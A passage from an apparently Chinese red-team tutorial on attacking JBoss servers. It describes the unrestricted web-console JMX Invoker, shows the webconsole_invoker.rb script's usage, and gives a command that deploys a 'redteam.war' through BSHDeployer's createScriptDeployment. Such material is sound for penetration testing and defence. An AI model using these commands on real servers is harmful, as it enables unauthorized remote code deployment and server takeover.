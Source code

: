 如果 JMX 控制台有密码保护的话，是不可以通过 Web 控制台访问 MBean 的函数的，需要登陆后才能访问。

##### Web 控制台 JMX Invoker

Web 控制台除了可以看到组建的梳妆接口与 JBoss 服务器信息外，还可监视 MBean 属性的实时变化。

访问 URL：

```
http://$hostname/web-console/Invoker 
```

这个 Invoker 其实就是 JMX Invoker，而不局限于 Web 控制台提供的功能。

默认情况下，访问是不受限制的，所以攻击者可以用它来发送任意的 JMX 命令到 JBoss 服务器。

##### 安装 redteam.war

用 Web 控制台的 Invoker 安装 redteam.war 文件。

webconsole_invoker.rb 可以直接调用 Web 控制的 JMX Invoker，使用的 Java 类是：org.jboss.console.remote.Util

Util.class 文件属于 JBoss 服务器的 JAR 文件：console-mgr-classes.jar，它提供的方法：

```
public static Object invoke(
    java.net.URL externalURL,
    RemoteMBeanInvocation mi)
public static Object getAttribute(
    java.net.URL externalURL,
    RemoteMBeanAttributeInvocation mi) 
```

通过 Web 控制台 Invoker 可以读取 MBean 的属性与 invoke 方法。

这个类可以通过 webconsole_invoker.rb 脚本使用，使用方法如下：

```
$ ./webconsole_invoker.rb -h
Usage: ./webconsole_invoker.rb [options] MBean
￼-u, --url URL  The Invoker URL to use (default:http://localhost:8080/web-console/Invoker)
-a, --get-attr ATTR             Read an attribute of an MBean
-i, --invoke METHOD             invoke an MBean method
-p, --invoke-params PARAMS      MBean method params
-s, --invoke-sigs SIGS          MBean method signature
-t, --test                      Test the script with the ServerInfo MBean
-h, --help                      Show this help

Example usage:
./webconsole_invoker.rb -a OSVersion jboss.system:type=ServerInfo
./webconsole_invoker.rb -i listThreadDump jboss.system:type=ServerInfo
./webconsole_invoker.rb -i listMemoryPools -p true -s boolean jboss.system:type=ServerInfo 
```

通过如下命令利用 BSHDeployer 来安装 redteam.war 文件。

```
$ ./webconsole_invoker.rb -u http://scribus:8080/web-console/Invoker -i createScriptDeployment -s "java.lang.String","java.lang.String" -p "`cat redteam.bsh`",redteam.bsh jboss.deployer:service=BSHDeployer 
```
